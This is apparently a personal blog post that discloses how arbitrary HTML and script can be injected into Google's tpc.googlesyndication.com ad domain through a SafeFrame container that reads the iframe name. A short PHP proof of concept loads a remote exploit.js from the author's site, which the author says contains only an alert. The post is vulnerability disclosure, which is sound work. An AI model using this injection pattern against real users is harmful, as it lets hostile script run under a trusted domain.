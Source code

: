 ```yaml
---
title: Embed any HTML into tpc.googlesyndication.com
layout: post
keywords: html xss cross site scripting tpc.googlesyndication.com google
---
```


Google uses <a href="http://tpc.googlesyndication.com" target="_blank" rel="nofollow">tpc.googlesyndication.com</a> for its adserving. They basically allow anything to run on this domain. There is a container html file hosted on this domain which reads the name of the iframe and injects the name content into the page. We can use this to run anything we want on this google domain.

Example php code:
{% highlight php %}
<?php

$html = '<script src="http://dubbelboer.com/googlebug/exploit.js"></script>';

// The format for the name needs to be "1-0-1;<length of content>;<content>"
echo '<iframe name="1-0-1;' . strlen($html) . ';' . htmlentities($html) . '"';
echo ' src="http://tpc.googlesyndication.com/safeframe/1-0-1/html/container.html"></iframe>';
{% endhighlight %}

This example can be found at <a href="http://dubbelboer.com/googlebug/index.php" target="_blank">http://dubbelboer.com/googlebug/index.php</a>

In my example `exploit.js` just contains an alert statement to show the domain. In theory this could contain any code.

This has been reported to google but they said they don't care what is run on the domain. I guess they never place any sensitive cookies on this domain and don't expect others to do either.

